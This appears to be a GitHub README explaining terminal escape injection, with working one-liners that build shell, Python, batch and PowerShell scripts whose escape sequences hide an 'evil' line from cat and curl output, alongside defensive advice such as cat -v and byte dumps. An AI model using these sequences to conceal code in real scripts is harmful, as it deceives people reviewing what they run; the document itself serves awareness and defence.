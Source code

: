 A terminal escape sequence is a special sequence of characters that is printed (like any other text). But, if the terminal understands the sequence, it won’t display the character-sequence, but will perform some action.


Welcome to the world of terminal escape injections, or as some folks have called it in the past – The new XSS for Linux sysadmins.

it is happen in all os..


There are many different terminal emulators out there and each of them can have specific escape sequences on top the common ANSI/VT ones.

what’s the potential impact?

	    Install backdoor (RAT) on our system
	    Plant malware or rootkit on our system
	    Capture keystrokes and record our screen
	    Practically anything you can imagine really

how safe is it to cat an arbitrary file?

	The problem with these things is that they do not sanitize the output in any way. They merely print out whatever content is there. They don’t care.

	So if there is some binary content, they will just print it out and we will see some gibberish.

	And if there happens to be some particular byte sequence that the ANSI/VT terminal understands as an escape sequence, then the terminal will simply interpret it.

	So this is not really a bug. That’s just how things are with console applications. And as infosec professionals, we should be vigilant about the risks.


How escape injection works?
```
cat -v script.sh
#!/bin/sh

echo "evil!"
exit 0
^[[2Aecho "Hello World!"
```



	Now suppose we didn’t use the -v parameter. As the cat command is displaying the content of the script line by line, the escape sequence (^[[2A) will move the cursor 2 lines up – back on the position where the evil code is. And then the code will be rewritten by our benign (Hello World) code.
	
How to avoid escape sequence attacks in terminals?

UNIX/Linux

1. On UNIX based systems, beware of the utilities that output raw data. This includes:

    cat, head, tail, more
    curl, wget
    diff
    
2.  Use cat -v to display non-printable characters or use the less command.

For instance, we should never install software from the Internet just by using curl / wget and piping it into shell. Visual analysis is not enough:

```
curl -s http://example.com/install.sh
#!/bin/sh

echo "script..."

curl -s http://example.com/install.sh | sh
evil!

curl -s http://example.com/install.sh | cat -v
#!/bin/sh
echo "evil!"
#*[[2A^[[1echo "script..."

```

3. We can also use text editors such as nano, pico, vim, emacs or any other editor that we prefer.


Windows

1. In Command Prompt we can use the more command instead of the type command. The more command will reveal the escape sequences:

```
more script.bat
```
But it doesn’t work in PowerShell.

2. In PowerShell it seems there is no way to sanitize the escape sequences by using some parameter or some other function instead of using the get-content command.
I was only able to come up with the following somewhat clumsy and complicated solutions to reveal the hidden terminal injections:
```
Solution 1:
gc <file> -encoding Byte | % { [char]$_+" " | write-host -nonewline }
Solution 2:
gc <file> -encoding Byte | % { if ( $_ -lt 32 -or $_ -gt 126 ) { [char]$_+" " } else { [char]$_ } } | write-host -nonewline
```

3. Best solution on Windows is to always use text editors such as Notepad or WordPad. Do not rely on console utilities.

ex...

Shell script escape injection
```
echo -e '#!/bin/sh\n\necho "evil!"\nexit 0\n\033[2Aecho "Hello World!"\n' > script.sh
chmod a+x script.sh
```

Python script escape injection

```
echo -e '#!/usr/bin/python\n\nprint "evil!";\nexit(0);\n#\033[2A\033[1Dprint "Hello World!";\n' > script.py

chmod a+x script.py
```

Batch (Command Prompt) escape injection
```
echo -e '@echo off\n\r\n\recho evil!\r\n::\033[2D  \033[A\033[2Decho Hello World!' > script.bat
```

PS1 (PowerShell) escape injection
```
echo -e 'write-host "evil!"\r\n#\033[A\033[2Dwrite-host "Hello World!"' > script.ps1
```


